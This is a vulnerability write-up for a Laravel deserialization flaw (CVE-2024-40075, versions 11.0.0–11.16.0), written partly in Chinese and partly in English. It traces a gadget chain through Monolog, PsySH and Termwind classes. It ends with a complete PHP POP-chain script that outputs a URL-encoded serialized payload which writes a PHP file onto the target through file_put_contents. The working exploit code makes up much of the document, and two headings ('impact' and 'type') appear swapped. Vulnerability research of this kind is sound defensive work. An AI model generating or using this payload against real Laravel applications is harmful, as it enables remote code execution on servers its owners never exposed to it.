



# CVE-2024-40075

>   Laravel是Laravel社区的一个Web 应用程序框架。

## 来源

[https://gitee.com/Q16G/laravel_bug](https://gitee.com/Q16G/laravel_bug)

## 简介

Laravel存在反序列化漏洞，由于 Monolog\Handler\Handle 类的 __destruct 方法调用了 close 方法，GroupHandler 重载了并调用每个 handler 的 close 方法，反序列化恶意对象时会通过 getStreamName 方法调用对象的 __toString 方法，攻击者可利用应用中存在的反序列化逻辑，构造基于laravel的反序列化利用链执行任意代码。

## 影响范围

反序列化

## 漏洞类型

-   11.0.0 <= laravel <= 11.16.0

## laravel env

```
composer create-project laravel/laravel laravel
```

## detail

1) First look for the __destruct function, traced here to Monolog\Handler\Handler, first see that it is an abstract class, the abstract class defines __destruct subclasses, if not overwritten, it will directly call the __destruct function of the parent class. The close method is called in __destruct, as shown in the figure below, we just need to find a subclass that overrides the close method, not the __destruct method (groupHandler is a good choice).


### Monolog\Handler\Handler



### Monolog\Handler\GroupHandler

In the groupHandler close method, handlers are iterated through and the close method is executed, so you just keep looking for them according to the close method.



### Psy\Readline\Hoa\Stream

The close method is found, first the getStreamName method is called, then the md5 function is done, so you just need to find a __tostring trigger. Stream, on the other hand, is an abstract class, so just look for the implementation class. I'm going to go with Psy\Readline\Hoa\FileRead.



### Termwind\Components\Element

Because __tostring function calls tostring function, so directly look at the tostring function, here called $this->stypes->format function, so directly find the format function can be.


### Termwind\ValueObjects\Styles

The command can be executed.

## POP chain

```php
<?php

namespace Monolog\Handler{
    class GroupHandler {
        protected array $handlers;

        public function __construct($oa){
            $this->handlers[0]=$oa;
        }
    }
}
namespace Psy\Readline\Hoa{
    class FileRead{
        protected $_bucket = [];
        public function __construct($oa){
            $this->_bucket[0]=$oa;
            $this->_bucket[2]=$oa;
        }
    }
}
namespace Termwind\Components{
    use Termwind\ValueObjects\Styles;
    final class Hr extends Element{
        public function __construct($oa){
            $this->styles = $oa;
            $this->content = "testtestest.php";
        }
    }
    abstract class Element
    {
    protected static array $defaultStyles = [];
    protected Styles $styles;
    protected array|string $content;
}
}

namespace Termwind\ValueObjects{
    final class Styles{
        private array $textModifiers = ['file_put_contents'];
        private array $properties = [
            'styles' => "<?php phpinfo();",
            'parentStyles' => 0,
        ];
    }
}


namespace{
    $styles = new Termwind\ValueObjects\Styles;
    $hr = new Termwind\Components\Hr($styles);
    $o2 = new Psy\Readline\Hoa\FileRead($hr);
    $o3 = new Monolog\Handler\GroupHandler($o2);
    echo urlencode(serialize($o3));
}

```
